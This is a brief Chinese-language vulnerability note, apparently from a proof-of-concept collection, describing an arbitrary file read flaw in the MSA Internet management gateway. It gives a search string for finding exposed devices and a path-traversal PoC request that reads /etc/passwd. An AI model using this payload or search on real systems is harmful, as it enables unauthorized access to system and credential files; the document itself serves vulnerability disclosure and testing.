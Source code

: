 # MSA 互联网管理网关 msa 任意文件下载漏洞

## 漏洞描述

MSA 互联网管理网关存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器任意文件

## 漏洞影响

```
MSA 互联网管理网关
```

## 网络测绘

```
"互联网管理网关"
```

## 漏洞复现

登录页面

![img](./images/202202110916716.png)

验证POC

```php
/msa/../../../../etc/passwd
```

![img](./images/202202110916705.png)